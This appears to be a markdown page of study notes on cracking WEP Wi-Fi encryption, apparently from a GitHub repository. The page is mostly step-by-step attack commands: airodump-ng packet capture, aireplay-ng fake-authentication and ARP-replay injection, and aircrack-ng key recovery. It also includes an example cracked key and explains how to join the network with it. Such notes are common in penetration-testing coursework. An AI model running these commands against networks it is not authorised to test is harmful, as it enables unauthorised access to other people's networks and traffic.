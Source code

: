 # Gaining access WEP

- we need a large amount of packets in order to have enough IVs (vector keys). We can do this by using airodump-ng command on the target network and write results to file
```
airodump-ng --bssid <target-network-bssid> --channel <target-network-channel> --write <filename> <wirless-adapter>
```

- use the capture file to crack key
```
aircrack-ng <filename.cap>
```
at the end of this command, if success, you get this message:
KEY FOUND! [41:73:32:33:70] (ASCII: As23p)

you can use the ascii key to connect to the network but you don't always get this key but you always get the key in square brackets, you can connect to the network by using this key instead without ':' symbols (ex. 4173323370)

## Crack WEP if network is not busy (it does not generate enough IVs)

- listen the target network as before
```
airodump-ng --bssid <target-bssid> --channel <channel> --write <filename> <wirless-adapter>
```

- assosiate with the target network (fakeauth attack)
```
aireplay-ng --fakeauth 0 -a <target-bssid> -h <wireless-adapter-mac-addr> <wirless-adapter>
```

- force IVs generation (ARP replay attack)
```
aireplay-ng --arpreplay -b <target-bssid> -h <wireless-adapter-mac-addr> <wirless-adapter>
```

- use the capture file to crack key as before
```
aircrack-ng <filename.cap>
```
